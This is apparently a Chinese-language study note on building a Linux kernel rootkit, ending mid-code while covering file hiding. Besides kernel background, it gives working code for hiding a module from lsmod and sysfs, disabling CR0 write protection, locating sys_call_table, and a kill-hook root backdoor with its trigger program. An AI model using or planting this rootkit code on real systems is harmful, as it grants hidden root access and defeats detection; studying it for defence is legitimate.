



# Rootkit Learning

[TOC]


## LKM（Linux 内核模块）

### 定义

[IBM Developer——Linux  lkm]( https://www.ibm.com/developerworks/cn/linux/l-lkm/ )

​	所谓LKM是指Linux 内核模块，它并非一个完全静态的内核，是可以在运行时动态地更改，把新的功能加载到内核、从内核中去除某个功能，甚至添加使用其他Linux内核模块。其优点是可以最小化内核的内存占用，只加载需要的元素（这个特性很符合嵌入式系统的要求）

​	LKM与直接编译到内核或者典型的程序有根本区别。

​	典型的程序有一个 main 函数，其中 LKM 包含 entry 和 exit 函数（在 2.6 版本，您可以任意命名这些函数）。当向内核插入模块时，调用 entry 函数，从内核删除模块时则调用 exit 函数。因为 entry 和 exit 函数是用户定义的，所以存在 `module_init` 和 `module_exit` 宏，用于定义这些函数属于哪种函数。

​	LKM 还包含一组必要的宏和一组可选的宏，用于定义模块的许可证、模块的作者、模块的描述等等。 

​	比如：

```
#include <linux/module.h>
#include <linux/init.h>

MODULE_LICENSE("GPL");
MODULE_AUTHOR("Module Author");
MODULE_DESCRIPTION("Module Description");

static int __init mod_entry_func(void)
{
	return 0;
}

static void __init mod_exit_func(void)
{
	return;
}

module_init(mod_entry_func);
module_exit(mod_exit_func);
```

​	2.6版本的Linux内核提供了几个方法来管理内核模块

>  `insmod`（安装 LKM），`rmmod` （删除 LKM），`modprobe`（`insmod` 和 `rmmod` 的包装器），`depmod`（用于创建模块依赖项），以及 `modinfo`（用于为模块宏查找值） 

​	LKM也是可执行可链接格式对象文件（Executable and Linkable Format，ELF）的一种。通常，必须链接对象文件才能在可执行文件中解析它们的符号和结果，而且需要将LKM加载到内核后LKM才能解析符号。可以使用objdump来观察该文件的区段。 比如 *.text*（说明）、*.data*（已初始化数据）和 *.bss*（块开始符号或未初始化数据） ，另外还可以观察到 其他支持动态特性的区段。.init.text 区段包含 `module_init` 代码，.exit.text 区段包含 `module_exit` 代码。.modinfo 区段包含各种表示模块许可证、作者和描述等的宏文本。

 

了解LKM的基本结构对于后面我们实现内核模块劫持的时候是很有用的。

### LKM执行与结束

LKM既可以使用默认名称作为入口和出口函数的名字，自定义。两种方法如下：

默认名称：

```
int init_module(void){...}
void cleanup_module(void){...}
```

自定义名称：

```
int test_init(void){...}
void test_exit(void){...}

module_init(test_init);
module_exit(test_exit);
```

使用默认出入口名称比起自定义名称的方法少了`module_init/module_exit`的注册过程。这个注册过程实际就是把自定义的名称与默认出入口名称做了绑定。

这两个注册宏在源码`include/linux/module.h`:

```
/* Each module must use one module_init(). */
#define module_init(initfn)					\
	static inline initcall_t __inittest(void)		\
	{ return initfn; }					\
	int init_module(void) __attribute__((alias(#initfn)));

/* This is only required if you want to be unloadable. */
#define module_exit(exitfn)					\
	static inline exitcall_t __exittest(void)		\
	{ return exitfn; }					\
	void cleanup_module(void) __attribute__((alias(#exitfn)));
```

上面的`alias`是 GCC 的拓展功能，给函数起别名并关联起来。所以自定义出入口函数名称最终还是使用`init_module/cleanup_module`这两个名字。

### LKM生命周期

​	在用户态时，通过insmod启动模块加载过程，调用init_module，init_module并不进行所有必要的符号解析（比如处理kerneld），它只完成将模块的二进制文件复制到内核，交由内核函数sys_init_module，然后剩下的任务由内核完成。

​	在卸载时，类似的，从用户态调用delete_module进入内核，并调用sys_delete_module将模块从内核删除。



​	在模块的加载和卸载期间，模块子系统维护了一组简单的状态变量，用于表示模块的操作。加载模块时，状态为 `MODULE_STATE_COMING`。如果模块已经加载并且可用，状态为 `MODULE_STATE_LIVE`。此外，卸载模块时，状态为 `MODULE_STATE_GOING`。 这几个状态在后面学习内核通知链 notifier 列表 的时候会用上。

### sys_init_module的工作

进入内核后，sys_init_module做如下工作：

```
sys_init_module(mod_name , args)
	1) /*  权限检查  */
	2) mode = load_module(mode_name , args);
	3) /*  加载模块到链表  */
	4) /*  通过内核通知链通知状态修改  */
	5) mod->init();/*  调用模块初始化函数  */
	6) mod->state = MODULE_STATE_LIVE  /*  更新模块状态 */
	7) return
```

​	**load_module函数（./linux/kernel/module.c）**

1. 分配一块容纳整个ELF模块的临时内存
2. 通过copy_from_user函数将ELF模块从用户空间读入临时内存
3. 对读入的模块进行检查（是否为有效ELF文件，是否适合当前架构等）
4. 解析ELF映像，哪个区段应该保持，哪个可以被删除
5.  更新模块状态，表明模块已加载（`MODULE_STATE_COMING`） 
6. 为临时内存中的模块分配最终位置，并移动必要区段，进行符号解析以及额外的维护等等

​	**struct module**

​	[参考](https://blog.csdn.net/jk110333/article/details/8563647)

​	前面讲到sys_init_module中经过权限检查后调用的是就是load_module，把用户态传入的整个内核模块文件创建成一个内核模块，返回一个struct module结构体，内核中就以该结构体代表该内核模块，其定义如下

​	[源码](https://elixir.bootlin.com/linux/v4.15/source/include/linux/module.h#L328)

```
struct module
    {
        enum module_state state;  //表示模块当前状态，枚举类型
        struct list_head list;  /作为一个全局链表的成员，链表头是一个全局变量struct module *modules
        char name[MODULE_NAME_LEN];   //模块名字，一般以模块文件的文件名作为模块名
 
        struct module_kobject mkobj;  //组成设备模型的基本结构
        struct module_param_attrs *param_attrs;
        const char *version;
        const char *srcversion;
 
        const struct kernel_symbol *syms;
        unsigned int num_syms;
        const unsigned long *crcs;
 
        const struct kernel_symbol *gpl_syms;
        unsigned int num_gpl_syms;
        const unsigned long *gpl_crcs;
 
        unsigned int num_exentries;
        const struct exception_table_entry *extable;
 
        int (*init)(void);
        void *module_init;
        void *module_core;
        unsigned long init_size, core_size;
        unsigned long init_text_size, core_text_size;
        struct mod_arch_specific arch;
        int unsafe;
        int license_gplok;
 
#ifdef CONFIG_MODULE_UNLOAD
        struct module_ref ref[NR_CPUS];
        struct list_head modules_which_use_me;
        struct task_struct *waiter;
        void (*exit)(void);
#endif
 
#ifdef CONFIG_KALLSYMS
        Elf_Sym *symtab;
        unsigned long num_symtab;
        char *strtab;
        struct module_sect_attrs *sect_attrs;
#endif
        void *percpu;
        char *args;
    };
```

​	**enum module_state state**

1. load_module完成模块的创建工作后，会把状态置为MODULE_STATE_COMING

2. sys_init_module函数中完成模块的全部初始化工作后（包括把模块加入全局的模块列表，调用模块本身的初始化函数)，把模块状态置为MODULE_STATE_LIVE
3. 使用rmmod工具卸载模块时，会调用系统调用 delete_module，会把模块的状态置为MODULE_STATE_GOING。

```
enum module_state
{
    MODULE_STATE_LIVE,  //模块当前正常使用中（存活状态） 0
    MODULE_STATE_COMING, //模块当前正在被加载  1 
    MODULE_STATE_GOING,  //模块当前正在被卸载  2
};
```

​	这是模块内部维护的一个状态。


​	**THIS_MODULE**

​	前面讲到，一个struct module就代表一个内核模块，在内核中定义了一个宏THIS_MODULE

```
#define THIS_MODULE (&__this_module)
```

​	`__this_module`是一个struct module变量，代表当前模块。

​	因此，在编程时可以通过THIS_MODULE宏来引用模块的struct module结构。


## Rootkit基本功能原理

### 隐藏模块

​	在用户态下获取模块的方法主要有lsmod以及查看/proc/modules的内容或者查看/sys/module/下的文件，因此主要有以下三个对象需要进行隐藏：

1. 对lsmod隐藏
2. 对/proc/modules隐藏
3. 对/sys/module隐藏

​	其中，lsmod是通过读取/proc/modules来发挥作用的，因此我们对/proc/modules进行处理就能解决前面两个目标，剩下的需要处理/sys/module/下的模块子目录。

#### lsmod命令 与 /proc/modules文件

​	该文件列出了所有加载进内核的模块列表，它是内核利用前面所说的`struct modules->list`来遍历内核模块链表struct modules获得的。新加载的模块会被插入到modules的头部，可以通过`modules->next`来引用。如果我们把自己从这个链表中摘除掉就可以实现对/proc/modules下的隐藏。

​	先来看看内核中的链表：

​	**内核中的链表**

​	[参考文章1](https://blog.popkx.com/linux-learning-18-how-the-kernel-operates-linked-lists/)

​	[参考文章2](https://blog.csdn.net/funkunho/article/details/52041012)

​	一般地，内核中常采用链表来管理对象，定义如下

```
struct list_head {
	struct list_head *next, *prev;
};
```

​	把链表放入其他数据结构来进行管理，就像一根锁链把要管理的对象链在一起。

>  list是作为一个列表的成员，所有的内核模块都被维护在一个全局链表中，链表头是一个全局变量struct module *modules。任何一个新创建的模块，都会被加入到这个链表的头部 

​	链表初始化的两种方式：

1. struct list_head mylist;

```
struct list_head mylist;  // 定义一个链表
INIT_LIST_HEAD(&mylist); // 使用INIT_LIST_HEAD函数初始化链表

static inline void INIT_LIST_HEAD(struct list_head *list)
 {
     list->next = list;
     list->prev = list;
 }
```

​	经过INIT_LIST_HEAD之后，struct list_head mylist = {&(mylist) , &(mylist) };

​	也就是next和prev都被赋值为链表mylist的地址，链表初始化都是指向自己的，避免指向未知区域，这点很重要， 如果使用一个未被初始化的链表结点，很有可能会导致内核异常。 

2. LIST_HEAD(mylist)

   第二种方式是，使用LIST_HEAD宏定义初始化一个链表，两种方法都是可以的。

```
#define LIST_HEAD_INIT(name) { &(name), &(name) }
#define LIST_HEAD(name) /
         struct list_head name = LIST_HEAD_INIT(name)
```

​	

​	**链表的常用操作**

​	想要对内核模块全局链表进行操作，需要了解链表的常用操作。

- 增加

  list_add 和 list_add_tail

> 调用list_add可以将一个新链表结点插入到一个已知结点的后面；
>
> 调用list_add_tail可以将一个新链表结点插入到一个已知结点的前面；

​	这两个函数以不同的参数调用了相同的函数`__list_add`

```
static inline void __list_add(struct list_head *new , struct list_head *prev , struct list_head *next)
{
    next->prev = new;
    new->next = next;
    new->prev = prev;
    prev->next = new;
}
```

​	该函数将new节点插入到prev节点和next节点之间，也就是原来prev->next变成了prev->new->next。

​	对于list_add：

```
static inline void list_add(struct list_head *new, struct list_head *head)
{
	__list_add(new, head, head->next);
	//将new结点插入到head和head->next之间，也就是将new结点插入到特定的已知结点head的后面
}
```

​	对于list_add_tail：

```
static inline void list_add_tail(struct list_head *new, struct list_head *head)
{
	__list_add(new, head->prev, head);
	//将new结点插入到head->prev和head之间，也就是将new结点插入到特定的已知结点head的前面
}
```


- 删除

  list_del 和 list_del_init 

> 调用list_del函数删除链表中的一个结点；
>
> 调用list_del_init函数删除链表中的一个结点，并初始化被删除的结点（也就是使被删除的结点的prev和next都指向自己）；

​	这两个函数也调用了相同的函数__list_del：

```
static inline void __list_del(struct list_head * prev, struct list_head * next)
{
    next->prev = prev;
    prev->next = next;
}
```

 	让prev结点和next结点互相指向，也就是由原来prev->new->next变成了prev->next。

​	对于list_del：

```
static inline void list_del(struct list_head *entry)
{
    __list_del(entry->prev, entry->next);  //就是entry节点的前后节点绕过entry节点相互指向
    entry->next = LIST_POISON1;            
    entry->prev = LIST_POISON2;
    //将entry结点的前后指针指向LIST_POISON1和LIST_POISON2，从而完成对entry结点的删除
}

/*
 * These are non-NULL pointers that will result in page faults
 * under normal circumstances, used to verify that nobody uses
 * non-initialized list entries.
 */
#define LIST_POISON1  ((void *) 0x100 + POISON_POINTER_DELTA)
#define LIST_POISON2  ((void *) 0x200 + POISON_POINTER_DELTA)
```

​	LIST_POISON1和LIST_POISON2是为了防止有的节点申请内存错误的时候也是null，所用的两个特定的地址，LIST_POISON1和LIST_POISON2都是低位地址，在内核空间申请内存时是不会出现的 

​	对于list_del_init：

```
static inline void list_del_init(struct list_head *entry)
{
	__list_del(entry->prev, entry->next);
	INIT_LIST_HEAD(entry);
}
```

​	与list_del不同，list_del_init将entry结点删除后，还会对entry结点做初始化，使得entry结点的prev和next都指向自己。 


- 对象类型typeof、偏移offsetof 和 获取指向结构体的指针container_of

  首先typeof的作用是获取指针所指向的对象的类型。

  其次，offsetof的定义如下：

```
#include <stddef.h>
#define offsetof(TYPE, MEMBER) ((size_t) &((TYPE*)0)->MEMBER)
```

​	offsetof返回结构体TYPE中MEMBER成员相对于结构体首地址的偏移量。

​	为什么offsetof可以得到某个成员的偏移量？

> `(TYPE *)0`,将 0 强制转换为`TYPE`型指针，记 `p = (TYPE *)0`，`p`是指向`TYPE`的指针，它的值是0。那么 `p->MEMBER` 就是 `MEMBER` 这个元素了，而`&(p->MEMBER)`就是`MEMBER`的地址，编译器认为0是一个有效的地址，则基地址为0，这样就巧妙的转化为了`TYPE`中的偏移量。再把结果强制转换为`size_t`型的就OK了。

​	container_of的作用的通过结构体变量中的一个域成员变量的指针来获取指向整个结构体变量的指针

```
#define container_of(ptr, type, member) ({          \
        const typeof( ((type *)0)->member ) *__mptr = (
        const typeof( ((type *)0)->member ) *)(ptr); \
        (type *)( (char *)__mptr - offsetof(type,member) 
        );
        })
```

>  创建一个类型为`const typeof( ((type *)0)->member ) *`，即类型为`type`结构的`member`域所对应的对象类型的常指针`__mptr` ，使用`ptr`初始化， 也就是获取到了member的地址。
>
>  因为数据结构是顺序存储的，此时如果知道`member`在`type`结构中的相对偏移，那么用`__mptr`减去此偏移便是`ptr`所属的`type`的地址。  


- 获取list对象地址list_entry

​	有了上面的基础就比较好理解，已知某个结构体abc的list对象地址（struct list_head *ptr），怎么获取到abc对象的地址呢，使用container_of宏！不过这里应该使用list_entry来调用

```
#define list_entry(ptr, type, member)  container_of(ptr, type, member) ......
```

​	因此list_entry的作用就是获取某个成员对象所在的对象的地址。


- 遍历链表list_for_each_entry

```
/**
 * list_for_each_entry	-	iterate over list of given type
 * @pos:	the type * to use as a loop cursor.
 * @head:	the head for your list.
 * @member:	the name of the list_struct within the struct.
 */
#define list_for_each_entry(pos, head, member)				\
	for (pos = list_entry((head)->next, typeof(*pos), member);	\
	     &pos->member != (head); 	\
	     pos = list_entry(pos->member.next, typeof(*pos), member))
```

​	使用list_entry来获取list对象所在的module对象的地址，这样可以通过全局链表modules获取到所有的内核模块信息。

​	

​	所以，讲了那么多原理，回到我们的目标，把我们rootkit模块从该全局链表里摘除就可以达到我们的目的了

```
list_del_init(&__this_module.list);
```


#### /sys/module目录的处理

​	对于/sys/module下的隐藏，如果不需要恢复的话，可以直接删除kobject，但是如果要恢复的话就需要操纵kobject的fd对象。[参考文章](https://github.com/croemheld/lkm-rootkit/blob/master/src/module_hiding.c )

​	**struct module_kobject mkobj**

[参考文章1](https://www.cnblogs.com/xiaojiang1025/p/6193959.html)

[参考文章2](http://kcmetercec.top/2018/03/09/linux_kernel_sysfs_tutorial/)

[参考文章3](https://www.twblogs.net/a/5b8b2ccf2b717718832dd8f0/zh-cn)

```
//include/linux/module.h

struct module_kobject {
	struct kobject kobj;
	struct module *mod;
	struct kobject *drivers_dir;
	struct module_param_attrs *mp;
	struct completion *kobj_completion;
};

//include/linux/kobject.h

struct kobject {  
    const char          *name;   //kobject对象的名字，对应sysfs下的一个目录
    struct list_head    entry;   //kobject中插入的head_list结构
    struct kobject      *parent;  //指向当前kobject父对象的指针，体现在sys结构中就是包含当前kobject对象的目录对象
    struct kset         *kset;    //表示当前kobject对象所属的集合
    struct kobj_type    *ktype;   //表示当前kobject的类型
    struct kernfs_node  *sd;     //表示VFS文件系统的目录项
    struct kref         kref;   // 对kobject的引用计数，当引用计数为0时，就回调之前注册的release方法释放该对象
    #ifdef CONFIG_DEBUG_KOBJECT_RELEASE  
    	struct delayed_work release;
    #endif
        unsigned int state_initialized:1;
        unsigned int state_in_sysfs:1;
        unsigned int state_add_uevent_sent:1;
        unsigned int state_remove_uevent_sent:1;
        unsigned int uevent_suppress:1;
};
```

>  `kobject`是组成设备模型的基本结构。`sysfs`是基于 RAM 的文件系统，它提供了用于向用户空间展示内核空间里对象、属性和链接的方法。`sysfs`和`kobject`层次紧密相连，将`kobject`层次关系展示出来，让用户层能够看到。一般`sysfs`挂载在`/sys/`，所以`/sys/module`就是`sysfs`的一个目录层次，包含当前加载的模块信息。所以，我们使用`kobject_del()`删除我们的模块的`kobject`，就可以达到隐藏的目的。 

​	**kobject_del**

```
//lib/kobject.c

void kobject_del(struct kobject *kobj)
{
	struct kernfs_node *sd;

	if (!kobj)
		return;

	sd = kobj->sd;       //获取kobj对象的文件系统目录项
	sysfs_remove_dir(kobj); //调用sysfs_remove_dir实际上是把kobj的sd结构置为NULL
	sysfs_put(sd);

	kobj->state_in_sysfs = 0;
	kobj_kset_leave(kobj);
	kobject_put(kobj->parent);
	kobj->parent = NULL;
}
```

​	如果我们的目标只是隐藏而不考虑恢复的话直接使用该函数即可，缺点就是难以恢复。

```
kobject_del(&THIS_MODULE->mkobj.kobj);
```

​	而如果要考虑恢复的问题，需要继续往下跟，但是这一块比较复杂，还会跟到了内核中的红黑树那一块。

**struct kernfs_node  *sd;**

```
struct kernfs_node {
	atomic_t		count;   //相关计数
	atomic_t		active;  //相关计数
#ifdef CONFIG_DEBUG_LOCK_ALLOC
	struct lockdep_map	dep_map;
#endif
	struct kernfs_node	*parent;  //本节点的父节点，这个比较重要，属性是文件，父节点是kobject
	const char		*name;     //节点名字

	struct rb_node		rb;     //红黑树节点

	const void		*ns;	//命名空间相关
	unsigned int		hash;	//命名空间相关
	//定义联合体
	union {
		struct kernfs_elem_dir		dir;     //目录
		struct kernfs_elem_symlink	symlink;   //符号链接
		struct kernfs_elem_attr		attr;    //属性
	};

	void			*priv;        //私有数据，kobject作为私有数据随kernfs_node传递

	unsigned short		flags;    //文件相关属性
	umode_t			mode;    //文件相关属性
	unsigned int		ino;   //子设备号
	struct kernfs_iattrs	*iattr;    //节点本身属性
};

```

​	**struct kernfs_elem_attr**

```
struct kernfs_elem_attr {
	const struct kernfs_ops	*ops;
	struct kernfs_open_node	*open;
	loff_t			size;
	struct kernfs_node	*notify_next;	/* for kernfs_notify() */
};
```

​	**sysfs_remove_dir(kobj);**

```
void sysfs_remove_dir(struct kobject *kobj)
{
	struct kernfs_node *kn = kobj->sd;
	spin_lock(&sysfs_symlink_target_lock);
	kobj->sd = NULL;
	spin_unlock(&sysfs_symlink_target_lock);

	if (kn) {
		WARN_ON_ONCE(kernfs_type(kn) != KERNFS_DIR);
		kernfs_remove(kn);
	}
}
```

​	**红黑树rbtree**

​	[参考文章一](https://biscuitos.github.io/blog/Tree_RBTREE_rb_set_parent_color/)


### 关闭写保护

[CR0寄存器](https://en.wikipedia.org/wiki/Control_register#CR0)

 写保护指的是写入只读内存时出错，可以通过CR0寄存器控制开启与否，修改从0开始的第16个Bit



可以使用`read_cr0`，`write_cr0`来读取和写入CR0寄存器

```
static inline unsigned long read_cr0(void);
static inline void write_cr0(unsigned long x);
```

```
// ========== WRITE_PROTECTION HELPER ==========
// TODO: Consider race condition on SMP systems.
void
disable_wp(void)
{
    unsigned long cr0;

    preempt_disable();
    cr0 = read_cr0();
    clear_bit(X86_CR0_WP_BIT, &cr0);
    write_cr0(cr0);
    preempt_enable();

    return;
}


// TODO: Consider race condition on SMP systems.
void
enable_wp(void)
{
    unsigned long cr0;

    preempt_disable();
    cr0 = read_cr0();
    set_bit(X86_CR0_WP_BIT, &cr0);
    write_cr0(cr0);
    preempt_enable();

    return;
}
// ========== END WRITE_PROTECTION HELPER ==========
```


### 获取sys_call_table地址

​	系统调用表sys_call_table是系统内核中的一块区间，作用是为了将系统调用号与需要调用的服务进行连接，相当于查表的行为，但是sys_call_table并不是可导出的linux内核符号。

#### 暴力搜索地址空间

​	[参考](https://wohin.me/rootkit/2017/05/08/LinuxRootkitExp-0001.html)

1. 内核内存空间的起始地址`PAGE_OFFSET`变量和`sys_close`系统调用对我们是可见的（`sys_open`/`sys_read`等并未导出）；
2. 系统调用号（即`sys_call_table`中的元素下标）在同一`ABI`（x86与x64属于不同ABI）中是高度后向兼容的；这个系统调用号我们也是可以直接引用的（如`__NR_close`）。
3. 所以我们可以从内核空间起始地址开始，把每一个指针大小的内存假设成`sys_call_table`的地址，并用`__NR_close`索引去访问它的成员，如果这个值与`sys_close`的地址相同的话，就可以认为找到了`sys_call_table`的地址 

该方法有可能被欺骗。

PAGE_OFFSET的定义，[参考文章](http://www.kerneltravel.net/chenlj/lecture7.pdf)

```
#define PAGE_OFFSET		((unsigned long)__PAGE_OFFSET)
#define __PAGE_OFFSET           page_offset_base
unsigned long page_offset_base = __PAGE_OFFSET_BASE;
EXPORT_SYMBOL(page_offset_base);
#define __PAGE_OFFSET_BASE      _AC(0xffff880000000000, UL)
```

#### 通过某些寄存器来读取

在网上看到某篇文章好像可以通过读取 `MSR_LSTAR` register来获取

[参考](http://bw0x00.blogspot.de/2011/03/find-syscalltable-in-linux-26.html)

#### 通过读取/boot/System.map-$(uname -r)文件获得

```
smap="/boot/System.map-$(uname -r)"
echo -e "#pragma once" &gt; ./sysgen.h
echo -e "#include <linux/fs.h>" >> ./sysgen.h
symbline=$(cat $smap | grep '\Wsys_call_table$')
set $symbline
echo -e "void** sys_call_table = (void**)0x$1;" >> ./sysgen.h
```


### ROOT提权后门

**方案一**

向特定文件写入指定内容，该文件可以使用文件隐藏隐藏起来

[全志后门](https://github.com/allwinner-zh/linux-3.4-sunxi/blob/bd5637f7297c6abf78f93b31fc1dd33f2c1a9f76/arch/arm/mach-sunxi/sunxi-debug.c#L41)

[参考](https://wohin.me/rootkit/2017/05/11/LinuxRootkitExp-00020.html)

**方案二**

Hook kill函数，发送指定SIGNAL信号

```
#define SIGROOT 48
asmlinkage int fake_kill(pid_t pid, int sig){
    switch(sig){
        case SIGROOT:
            commit_creds(prepare_kernel_cred(0));
            break;
	default:
            return o_kill(pid,sig);

    }
    return 0;
}
```


```
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <signal.h>

void sig_handler(int sig) {
    if(sig) // avoid warnings

    return;
}

int main(int argc, char *argv[]) {
    char bash[] = "/bin/bash\x00";
    char *envp[1] = { NULL };
    char *arg[3] = {"/bin/bash", NULL};
    
    if(geteuid() == 0){
        printf("You are already root! :)\n\n");
        exit(0);
    } 
    
    signal(48, sig_handler);
    kill(getpid(), 48);

    if (geteuid() == 0){
        printf("\e[01;36mYou got super powers!\e[00m\n\n");
        execve(bash, arg, envp);
    } else {
        printf("\e[00;31mYou have no power here! :( \e[00m\n\n");
    }
        
    return 0;
}


```


### 文件隐藏

[参考](https://blog.brickgao.com/2016/08/07/simple-rootkit/)

要实现文件隐藏需要对文件遍历有所了解，比如从用户的角度来考虑，用户是怎么获取文件信息的，最常见的就是ls命令，使用strace ls 看看ls进行了哪些系统调用。

```
…………
open(".", O_RDONLY|O_NONBLOCK|O_DIRECTORY|O_CLOEXEC) = 3
fstat(3, {st_mode=S_IFDIR|0755, st_size=4096, ...}) = 0
getdents(3, /* 31 entries */, 32768)    = 1056
getdents(3, /* 0 entries */, 32768)     = 0
close(3)                                = 0
…………
```

从系统ls所经过的系统调用中可以看到，文件遍历主要通过是系统调用`getdents`实现。


**目录文件（directory file）**

> 目录文件包含了其他文件的名字以及指向与这些文件有关的信息的指针——《UNIX环境高级编程》
>
> 也就是说，directory file不仅指向目录，同时还指向目录的具体文件。

**函数声明sys_getdents**

```
/*https://elixir.bootlin.com/linux/v4.15/source/include/linux/syscalls.h#L630*/

asmlinkage long sys_getdents(unsigned int fd,
				struct linux_dirent __user *dirent,
				unsigned int count);
```

getdents（）从打开文件描述符 fd 所引用的目录文件中遍历读取 linux_dirent 结构体到 dirp 所指向的大小为count 的缓冲区中。也就是说，ls 命令通过 getdents 来获取当前或者指定文件夹的问（包括文件夹），处理以后输出给调用 ls 命令的用户。因此想要实现文件隐藏的一个思路就是对 getdents 或者 getdents64 的返回值对我们想要隐藏的信息进行过滤。

文件描述符 fd 就不用多说了，主要来看看 linux_dirent 结构体。

**linux_dirent结构体**

```
/* https://elixir.bootlin.com/linux/v4.15/source/fs/readdir.c#L151 */
struct linux_dirent {
	unsigned long	d_ino;   /* inode number 索引节点号*/
	unsigned long	d_off;   /* offset to this dirent 在目录文件中的偏移*/
	unsigned short	d_reclen;/* length of this d_name 文件名的长度*/
	char		d_name[1];   /* file name 文件名*/
};
```

从其定义上看，存储的信息也只有名字信息，所以dirent的作用也是索引。

**getdents函数定义**

```
/* https://elixir.bootlin.com/linux/v4.15/source/fs/readdir.c#L212 */
SYSCALL_DEFINE3(getdents, unsigned int, fd,
		struct linux_dirent __user *, dirent, unsigned int, count)
{
	struct fd f;
	struct linux_dirent __user * lastdirent;
	struct getdents_callback buf = {
		.ctx.actor = filldir,
		.count = count,
		.current_dir = dirent
	};
	int error;
	……
	error = iterate_dir(f.file, &buf.ctx);   ///主要部分
	……
}
```

从getdents的函数定义中找到，主要调用了`iterate_dir`，跟进iterate_dir

**iterate_dir函数定义**

```
/* https://elixir.bootlin.com/linux/v4.15/source/fs/readdir.c#L26 */
int iterate_dir(struct file *file, struct dir_context *ctx)
{
	struct inode *inode = file_inode(file);
	bool shared = false;
	int res = -ENOTDIR;
	if (file->f_op->iterate_shared)
		shared = true;
	else if (!file->f_op->iterate)
		goto out;
		
	……

	if (!IS_DEADDIR(inode)) {
		ctx->pos = file->f_pos;
		if (shared)
			res = file->f_op->iterate_shared(file, ctx);
		else
			res = file->f_op->iterate(file, ctx);
		file->f_pos = ctx->pos;
		fsnotify_access(file);
		file_accessed(file);
	}
	……
}
EXPORT_SYMBOL(iterate_dir);
```

**struct file 的定义**

```
/* https://elixir.bootlin.com/linux/v4.15/source/include/linux/fs.h#L852 */
struct file {
	……
	const struct file_operations	*f_op;
	……
	
} __randomize_layout
  __attribute__((aligned(4)));	/* lest something weird decides that 2 is OK */
```

f_op是file_operations 结构体

```
if (shared)
			res = file->f_op->iterate_shared(file, ctx);
		else
			res = file->f_op->iterate(file, ctx);
```

在 iterate_dir 中主要调用了 file_operations 里的 iterate 函数

```
/* https://elixir.bootlin.com/linux/v4.15/source/include/linux/fs.h#L1692 */
struct file_operations {
	……
	int (*iterate) (struct file *, struct dir_context *);
	int (*iterate_shared) (struct file *, struct dir_context *);
	……
} __randomize_layout;
```

 **struct dir_context 的定义**

```
/* https://elixir.bootlin.com/linux/v4.15/source/include/linux/fs.h#L1657 */

struct dir_context;
typedef int (*filldir_t)(struct dir_context *, const char *, int, loff_t, u64,
			 unsigned);

struct dir_context {
	const filldir_t actor;
	loff_t pos;
};
```

actor 就是 filldir_t 类型

iterate 的具体实现是根据不同的文件系统而不一样的，以ext4为例：

```
/* https://elixir.bootlin.com/linux/v4.15/source/fs/ext4/dir.c#L652 */
const struct file_operations ext4_dir_operations = {
	.llseek		= ext4_dir_llseek,
	.read		= generic_read_dir,
	.iterate_shared	= ext4_readdir,
	.unlocked_ioctl = ext4_ioctl,
#ifdef CONFIG_COMPAT
	.compat_ioctl	= ext4_compat_ioctl,
